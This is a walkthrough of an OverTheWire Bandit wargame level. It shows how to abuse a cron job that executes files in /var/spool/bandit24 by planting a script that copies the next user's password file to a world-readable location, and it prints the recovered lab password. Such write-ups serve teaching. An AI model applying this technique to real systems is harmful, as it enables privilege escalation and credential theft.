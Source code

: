 - `cd`

```
bandit23@bandit:~$ cd /etc/cron.d
```

- `ls`

```
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root
```

- `cat`

```
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

The script shows that every file in the path of `/var/spool/$myname` will be executed once and deleted after 60 seconds.
So we need to create a script which fetches the password from `/etc/bandit_pass/bandit24` and store it in a temp file.

First we have to create a directory.

- `mkdir` 

```
bandit23@bandit:~$ mkdir /tmp/foo
bandit23@bandit:~$ cd /tmp/foo
bandit23@bandit:/tmp/foo$
```

Then we create the script file and set permission to **777** (full access).

- `touch, chmod`

```
bandit23@bandit:/tmp/foo$ touch script.sh
bandit23@bandit:/tmp/foo$ chmod 777 script.sh
bandit23@bandit:/tmp/foo$ ls -al script.sh
-rwxrwxrwx 1 bandit23 root 0 Feb  2 11:21 script.sh
```

Write the content of the script using a command-line text editor such as **vim**.

- `vim`

```
bandit23@bandit:/tmp/foo$ vim script.sh
```

The content of the script is:

```
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/foo/password
```

Again, we need to create the `/tmp/foo/password` file and grant everyone read/write permission.

```
bandit23@bandit:/tmp/foo$ touch password
bandit23@bandit:/tmp/foo$ chmod 666 password
bandit23@bandit:/tmp/foo$ ls -al password
-rw-rw-rw- 1 bandit23 root 0 Feb  2 11:22 password
```

Copy the script to `/var/spool/bandit24` and wait for the script to run automatically.

- `cp`

```
bandit23@bandit:/tmp/foo$ cp script.sh /var/spool/bandit24/

bandit23@bandit:/tmp/foo$ ls -al /var/spool/bandit24/script.sh
-rwxr-xr-x 1 bandit23 bandit23 63 Feb  2 11:23 /var/spool/bandit24/script.sh
```

[**WAIT FOR A MINUTE**...]

```
bandit23@bandit:/tmp/foo$ ls -al /var/spool/bandit24/script.sh
ls: cannot access '/var/spool/bandit24/script.sh': No such file or directory
```

The script file is no longer existed. That means it has been executed.

- `cat`

```
bandit23@bandit:/tmp/foo$ cat password
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

Password: `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

```
ssh bandit24@bandit.labs.overthewire.org -p 2220
```
